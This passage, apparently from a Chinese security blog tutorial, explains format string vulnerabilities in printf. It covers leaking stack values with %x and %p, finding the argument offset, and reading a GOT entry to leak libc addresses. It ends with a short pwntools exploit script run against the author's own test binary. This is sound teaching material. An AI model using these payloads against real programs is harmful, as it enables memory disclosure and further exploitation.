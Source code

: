 第一个printf正常输出：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf8.png?x-oss-process=style/watermark)

执行到printf(s)，没有指定的格式化字符串，压入两个 %0.8x：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf9.png?x-oss-process=style/watermark)

此时，程序会将第一个%0.8x当成指定的格式化字符串，从而输出十六进制长度为8位的数值，即输出为ffffd010。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf10.png?x-oss-process=style/watermark)

输入三个%08x.%08x.%08x时，由于没有指定参数，会将栈以外的其它地方当成参数输出。如下：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf11.png?x-oss-process=style/watermark)

也就是说，我们可以利用这种方式，泄露栈的其它地址。可以使用%3\$x快速打印出第3个参数的值：%3\$x 是一个格式说明符，$ 符号用于指定参数的位置，x 表示以十六进制格式输出参数值，表示将以十六进制格式输出第三个参数的值。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf12.png?x-oss-process=style/watermark)

# 二、攻击原理

参考链接：https://www.bilibili.com/video/BV19A411t7XF/?spm_id_from=333.999.0.0&vd_source=4481f768294d5110af6b9e0ab6a40ddd

## 2.1 泄露地址

之前的方法是泄露栈上的变量值，没法泄露变量的地址。但是如果我们将某个函数got表的地址输入进去，利用格式化字符串打印got表中的内容，也就是函数的真实地址，利用libc偏移，就可以泄露出任意函数的地址栏了。假设这个地址存放的位置是printf的第k个参数，我们可以使用%k$x，将其打印出来。

确定格式化字符串是第几个参数，一般可以通过 [tag]%p%p%p%p%p%p%p%p%p 来实现，如果输出的内容跟我们前面的 tag 重复了，那就说明我们找到了，但是不排除栈上有些其他变量也是这个值，所以可以用一些其他的字符进行再次尝试。

输入AAAA%p%p%p%p%p%p%p（%p以指针格式输出参数），栈结构如下：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf13.png?x-oss-process=style/watermark)

将第一行AAAA%p%p%p%p%p%p%p当作格式化字符串，从%p开始，printf开始寻找参数，如上图第一个参数为0xffffd010，第二个0xf7fcf410，第三个为0x1，第四个为‘AAAA%p%p%p%p%p%p%p’，A的十六进制为41，%的十六进制为25，p的十六进制为70，8位一输出，即0x41414141（AAAA）0x70257025(%p%p)

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf14.png?x-oss-process=style/watermark)

即这里k=4，溢出结构如下：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf15.png?x-oss-process=style/watermark)

yichen大佬用的使scanf的got地址，我调试了好几次，发现函数__x86.get_pc_thunk（获取在加载时动态定义的地址）没有加载下一条指令地址（也就是printf），然后地址一直打印不出来，也不知道为什么，也不知道怎么解决（就是上面AAAA%p%p%p%p%p%p%p前面0x1的位置，本来应该是个地址的）。然后我在代码里面加了一句puts("Hello world!"); 重新编译后后，使用puts函数的got地址打印，打印成功了：

exp：

```python
from pwn import *
sh = process('./fs1')
elf = ELF('./fs1')
puts_got = elf.got['puts']
print hex(puts_got)
gdb.attach(sh,'b *0x8048517')
payload = p32(puts_got) + '%4$s' #payload为puts的got地址
print payload
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) #后四个字节为打印出来的地址
sh.interactive()
```